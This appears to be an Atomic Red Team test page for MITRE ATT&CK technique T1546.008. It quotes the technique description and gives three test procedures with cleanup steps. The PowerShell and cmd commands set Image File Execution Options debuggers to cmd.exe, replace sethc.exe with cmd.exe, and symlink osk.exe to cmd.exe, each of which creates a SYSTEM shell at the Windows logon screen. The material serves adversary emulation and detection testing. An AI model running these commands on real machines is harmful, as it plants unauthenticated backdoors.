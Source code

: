 ```yaml
---
tags: [T1546_008, atomic_test]
filename: "[[T1546.008|T1546.008 - Event Triggered Execution: Accessibility Features]]"
---
```


# T1546.008 - Event Triggered Execution: Accessibility Features
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/008)
<blockquote>Adversaries may establish persistence and/or elevate privileges by executing malicious content triggered by accessibility features. Windows contains accessibility features that may be launched with a key combination before a user has logged in (ex: when the user is on the Windows logon screen). An adversary can modify the way these programs are launched to get a command prompt or backdoor without logging in to the system.

Two common accessibility programs are <code>C:\Windows\System32\sethc.exe</code>, launched when the shift key is pressed five times and <code>C:\Windows\System32\utilman.exe</code>, launched when the Windows + U key combination is pressed. The sethc.exe program is often referred to as "sticky keys", and has been used by adversaries for unauthenticated access through a remote desktop login screen. (Citation: FireEye Hikit Rootkit)

Depending on the version of Windows, an adversary may take advantage of these features in different ways. Common methods used by adversaries include replacing accessibility feature binaries or pointers/references to these binaries in the Registry. In newer versions of Windows, the replaced binary needs to be digitally signed for x64 systems, the binary must reside in <code>%systemdir%</code>, and it must be protected by Windows File or Resource Protection (WFP/WRP). (Citation: DEFCON2016 Sticky Keys) The [Image File Execution Options Injection](https://attack.mitre.org/techniques/T1546/012) debugger method was likely discovered as a potential workaround because it does not require the corresponding accessibility feature binary to be replaced.

For simple binary replacement on Windows XP and later as well as and Windows Server 2003/R2 and later, for example, the program (e.g., <code>C:\Windows\System32\utilman.exe</code>) may be replaced with "cmd.exe" (or another program that provides backdoor access). Subsequently, pressing the appropriate key combination at the login screen while sitting at the keyboard or when connected over [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001) will cause the replaced file to be executed with SYSTEM privileges. (Citation: Tilbury 2014)

Other accessibility features exist that may also be leveraged in a similar fashion: (Citation: DEFCON2016 Sticky Keys)(Citation: Narrator Accessibility Abuse)

* On-Screen Keyboard: <code>C:\Windows\System32\osk.exe</code>
* Magnifier: <code>C:\Windows\System32\Magnify.exe</code>
* Narrator: <code>C:\Windows\System32\Narrator.exe</code>
* Display Switcher: <code>C:\Windows\System32\DisplaySwitch.exe</code>
* App Switcher: <code>C:\Windows\System32\AtBroker.exe</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes](#atomic-test-1---attaches-command-prompt-as-a-debugger-to-a-list-of-target-processes)

- [Atomic Test #2 - Replace binary of sticky keys](#atomic-test-2---replace-binary-of-sticky-keys)

- [Atomic Test #3 - Create Symbolic Link From osk.exe to cmd.exe](#atomic-test-3---create-symbolic-link-from-oskexe-to-cmdexe)


<br/>

## Atomic Test #1 - Attaches Command Prompt as a Debugger to a List of Target Processes
Attaches cmd.exe to a list of processes. Configure your own Input arguments to a different executable or list of executables.
Upon successful execution, powershell will modify the registry and swap osk.exe with cmd.exe.

**Supported Platforms:** Windows


**auto_generated_guid:** 3309f53e-b22b-4eb6-8fd2-a6cf58b355a9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| parent_list | Comma separated list of system binaries to which you want to attach each #{attached_process}. Default: "osk.exe" | string | osk.exe, sethc.exe, utilman.exe, magnify.exe, narrator.exe, DisplaySwitch.exe, atbroker.exe|
| attached_process | Full path to process to attach to target in #{parent_list}. Default: cmd.exe | path | C:&#92;windows&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$input_table = "#{parent_list}".split(",")
$Name = "Debugger"
$Value = "#{attached_process}"
Foreach ($item in $input_table){
  $item = $item.trim()
  $registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item"
  IF(!(Test-Path $registryPath))
  {
    New-Item -Path $registryPath -Force
    New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
  }
  ELSE
  {
    New-ItemProperty -Path $registryPath -Name $name -Value $Value
  }
}
```

#### Cleanup Commands:
```powershell
$input_table = "#{parent_list}".split(",")
Foreach ($item in $input_table)
{
  $item = $item.trim()
  reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item" /v Debugger /f 2>&1 | Out-Null
}
```





<br/>
<br/>

## Atomic Test #2 - Replace binary of sticky keys
Replace sticky keys binary (sethc.exe) with cmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 934e90cf-29ca-48b3-863c-411737ad44e3






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
IF NOT EXIST C:\Windows\System32\sethc_backup.exe (copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc_backup.exe) ELSE ( pushd )
takeown /F C:\Windows\System32\sethc.exe /A
icacls C:\Windows\System32\sethc.exe /grant Administrators:F /t
copy /Y C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

#### Cleanup Commands:
```cmd
copy /Y C:\Windows\System32\sethc_backup.exe C:\Windows\System32\sethc.exe
```





<br/>
<br/>

## Atomic Test #3 - Create Symbolic Link From osk.exe to cmd.exe
Replace accessiblity executable with cmd.exe to provide elevated command prompt from login screen without logging in.

**Supported Platforms:** Windows


**auto_generated_guid:** 51ef369c-5e87-4f33-88cd-6d61be63edf2






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
IF NOT EXIST %windir%\System32\osk.exe.bak (copy %windir%\System32\osk.exe %windir%\System32\osk.exe.bak) ELSE ( pushd )
takeown /F %windir%\System32\osk.exe /A
icacls %windir%\System32\osk.exe /grant Administrators:F /t
del %windir%\System32\osk.exe
mklink %windir%\System32\osk.exe %windir%\System32\cmd.exe
```

#### Cleanup Commands:
```cmd
takeown /F %windir%\System32\osk.exe /A
icacls %windir%\System32\osk.exe /grant Administrators:F /t
del %windir%\System32\osk.exe
copy /Y %windir%\System32\osk.exe.bak %windir%\System32\osk.exe
icacls %windir%\system32\osk.exe /inheritance:d
icacls %windir%\system32\osk.exe /setowner "NT SERVICE\TrustedInstaller"
icacls %windir%\System32\osk.exe /grant "NT SERVICE\TrustedInstaller":F /t
icacls %windir%\system32\osk.exe /grant:r SYSTEM:RX
icacls %windir%\system32\osk.exe /grant:r Administrators:RX
```





<br/>
